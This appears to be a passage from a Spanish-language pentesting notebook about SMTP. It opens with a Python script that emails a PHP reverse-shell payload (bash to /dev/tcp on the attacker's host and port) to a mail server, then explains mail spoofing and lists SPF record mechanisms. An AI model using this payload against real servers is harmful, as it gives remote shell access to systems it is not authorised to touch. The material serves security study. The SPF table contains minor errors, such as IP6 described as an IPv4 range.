 ```
# payload 
message = ("<?php system('bash -i >& /dev/tcp/%s/%d 0>&1'); ?>" % (lhost,lport))

print("[*] Payload is generated : %s" % message)

msg.attach(MIMEText(message, 'plain'))
server = smtplib.SMTP(host=rhost,port=rport)

if server.noop()[0] != 250:
    print("[-]Connection Error")
    exit()

server.starttls()

# Uncomment if log-in with authencation
# server.login(msg['From'], password)

server.sendmail(msg['From'], msg['To'], msg.as_string())
server.quit()

print("[***]successfully sent email to %s:" % (msg['To']))
```

## MAIL SPOOFING

{% hint style="info" %}
La mayor parte de esta sección ha sido extraída del libro **Network Security Assessment 3rd Edition**.
{% endhint %}

Los mensajes SMTP son fácilmente spoofeables. Es por eso que las organizaciones utilizan SPF, DKIM y DMARC para prevenir el envío de correos no autorizados.

{% embed url="https://seanthegeek.net/459/demystifying-dmarc" %}
Fuente
{% endembed %}

### SPF

**Sender Policcy Framework** a facilita un mecanismo que permite a los Agentes de Transferencia de Correo (MTA) comprobar si un host enviando un correo era autorizado o no.

Las organizaciones pueden definir una lista de servidores de correo autorizados y los MTAs pueden realizar búsquedas en dicha lista para saber si un email era spoof.

Para definir los rangos de IP, dominios y otras estructuras que están autorizados a enviar correo, existen diferentes mecanismos que pueden aparecer en el registro SPF:

#### Mecanismos

| Mecanismo | Descripción                                                                                                                                                                                                                                                                                                                                            |
| --------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| ALL       | Coincide siempre; utilizado para un resultado por defecto tal como "ALL" para todas las IPs que no coincidan con mecanismos anteriores.                                                                                                                                                                                                                |
| A         | Si el nombre de dominio tiene un [**registro**](http://localhost:5000/s/-MhVrQh4lqWrSljwKpje/seguridad-linux/untitled-2#tipos-de-registros) (A o AAAA) que puede ser resuelto en la dirección remitente, Coincidirá                                                                                                                                    |
| IP4       | Si el remitente se encuentra en un rango IPv4 dado. Coincide                                                                                                                                                                                                                                                                                           |
| IP6       | Si el remitente se encuentra en un rango IPv4 dado. Coincide.                                                                                                                                                                                                                                                                                          |
| MX        | Si el nombre de dominio tiene un [**registro MX**](http://localhost:5000/s/-MhVrQh4lqWrSljwKpje/seguridad-linux/untitled-2#tipos-de-registros) que resuelve la dirección del remitente. Coincide . (P.E. el mail viene de uno de los servidores de recepción de correo del mismo dominio.)                                                             |
| PTR       | Si el nombre de dominio ([**registro PTR**](http://localhost:5000/s/-MhVrQh4lqWrSljwKpje/seguridad-linux/untitled-2#tipos-de-registros)) de la dirección remitente está en el dominio dado y l nombre de dominio resuelve a la dirección remitente (forward-confirmed reverse DNS). Coincide. Este mecanismo debe evitarse por problemas de seguridad. |
| EXISTS    | Si el nombre de dominio dado resuelve a alguna dirección. Coincide (da igual qué dirección). Se usa poco. Junto con SPF macro, puede ofrecer coincidencias más complejas.                                                                                                                                                                              |
| INCLUDE   | Referencia una política de otro dominio. Si esa política coincide, el mecanismo coincide. Sin embargo, si la política no coincide, el procesamiento continua. Para delegar completamente en la política de otro dominio, se debe utilizar el siguiente mecanismo (redirección).                                                                        |
